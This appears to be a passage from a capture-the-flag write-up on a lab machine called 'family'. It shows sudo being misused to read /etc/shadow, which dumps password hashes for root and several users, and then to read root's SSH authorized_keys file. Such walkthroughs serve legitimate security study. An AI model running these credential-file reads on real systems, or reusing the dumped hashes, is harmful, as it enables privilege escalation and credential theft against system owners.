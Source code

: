     $ sudo cat /etc/shadow

    root:$6$L9G0N6PxOApm2r4H$USfkGDLggFm.5W9nF5V54J0Zi5hXCcMofITfEXf7QyxIUWnNX2l1bpxpXIYo20JY5968YsklB9k8x1e6RuND/0:18742:0:99999:7:::
    daemon:*:18739:0:99999:7:::
    bin:*:18739:0:99999:7:::
    sys:*:18739:0:99999:7:::
    sync:*:18739:0:99999:7:::
    games:*:18739:0:99999:7:::
    man:*:18739:0:99999:7:::
    lp:*:18739:0:99999:7:::
    mail:*:18739:0:99999:7:::
    news:*:18739:0:99999:7:::
    uucp:*:18739:0:99999:7:::
    proxy:*:18739:0:99999:7:::
    www-data:*:18739:0:99999:7:::
    backup:*:18739:0:99999:7:::
    list:*:18739:0:99999:7:::
    irc:*:18739:0:99999:7:::
    gnats:*:18739:0:99999:7:::
    nobody:*:18739:0:99999:7:::
    _apt:*:18739:0:99999:7:::
    systemd-timesync:*:18739:0:99999:7:::
    systemd-network:*:18739:0:99999:7:::
    systemd-resolve:*:18739:0:99999:7:::
    messagebus:*:18739:0:99999:7:::
    sshd:*:18739:0:99999:7:::
    father:$6$2TAwmSS9bpvdGavh$8wMeBxMwKSqQR06kDk9HoATGLgUOwtQxOkWTbCFNKVOlM3rGWptuBffrW0FIwmSHASyeIxO5GEKGJsjEEdyoH0:18742:0:99999:7:::
    systemd-coredump:!!:18739::::::
    mysql:!:18739:0:99999:7:::
    mother:$6$sMtcQZxh/tLH6Fmr$bcRdJuYsezosKCFCCGrzX0Oz25Wh4fx3QCOT3bpCTadNFLpDcgMnQRYAZdKQ4uP4jW/fTkoBgIqJSWsLjeJs2.:18742:0:99999:7:::
    baby:$6$rlIgk/Phk.yVFB7M$6HwyFb1Zdc.1U4AsleVCMMuBjAul2.E8iEnow7PS0YMPCj/1.bAOcrqOWcB.Rr8TenvucGd/uhcXQKpRJfgLR1:18742:0:99999:7:::

Unfortunately we can't crack the passwords for the users, but we can do is read files on the root directory because we can run the command 'cat' as root.

Let's see if the '.ssh' directory is in the /root folder.

    $ sudo cat /root/.ssh

![image](https://user-images.githubusercontent.com/76552238/159300931-eb69d026-08bd-4987-b475-40b45ecca2dc.png)

Let's see if the 'authorized_keys' file is there.

    $ sudo cat /root/.ssh/authorized_keys
    command="bash ~/troll.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCdu5YWqC4vVGDE8XaQ7UW/WkLgEgWPE6n4BNfeTha+4nIR2twAUHl6yfz0HpNMqMF996Yj8+lvr8pD5FeOCHlm0TPGZEeE72/04Bxebvoz/TCYbj2/6cPv3LndsoUyNyyrC8dleOfhvdaTWbJBMLaw/vrdQ18F93lkf25WIGpPc1lA2ubNXxXnfh9mwZ4ewx++91tTnJFaVAgfKm6sqzmMq3BedEmqlOcOSJyzZIFypov7WK/BkjI2UG91LthkGjFFqwsbndQqDhIhz0re6N1i0INhhIaNHEdAsgNHHXAYOjgGfeMFtmwepPoDeanHfruPHTxYeVzL55uEbK5e2cGv root@family
